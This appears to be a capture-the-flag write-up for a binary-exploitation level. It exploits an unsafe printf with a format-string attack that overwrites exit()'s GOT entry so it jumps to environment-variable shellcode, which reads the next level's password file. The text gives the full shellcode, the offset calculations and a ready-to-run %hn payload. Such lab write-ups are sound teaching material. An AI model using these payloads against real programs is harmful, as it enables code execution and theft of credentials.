After reverse reverse engineering the program we found a non secured printf
It's going to be a format string attack let's to get the position of the buffer in the stack
We can export some shellcode, and replace the exit() relocation address in the GOT to target our shellcode instead. However the offset is too great to write the address in one go using %n. We will have to write it 2 bytes at a time with the short modifier (%hn).

export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass'

python -c 'print "%x " \* 20' | ./level05 #10th position

let's find the got of exit

disas exit
Dump of assembler code for function exit@plt:
0x08048370 <+0>: jmp \*0x80497e0

gcc -m32 getenv.c
./a.out
0xffffd87c

We can pass our 2 addresses at the start of our buffer and access them in $10 and $11 parameter indexes.

The tricky part is calculating the correct padding that will determine what value each use of %n will print.

0xffffd87c
printf %d 0xffff
65535
printf %d 0xd87c
55420 ; value of first padding before substracting address string sizes (8)
65535-55420
10115 ; value of second padding

The address of exit() in got is 0x080497e0. The address of our shellcode is 0xffffd87c.

python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] + '%55412d%10\$hn' + '%10115d%11\$hn'" | ./level05
